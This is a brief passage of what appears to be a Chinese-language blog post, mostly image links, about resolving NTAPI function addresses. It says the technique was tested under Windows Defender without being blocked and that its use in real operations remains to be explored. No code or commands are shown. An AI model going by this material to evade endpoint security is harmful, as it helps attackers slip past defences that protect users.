

在Defender下测试，不会被拦截。



## 最后

把输出的函数地址和`resolve`相结合，可以成功获取到`NTAPI`的地址。



如何更好的融入到实战中，还有待探索。
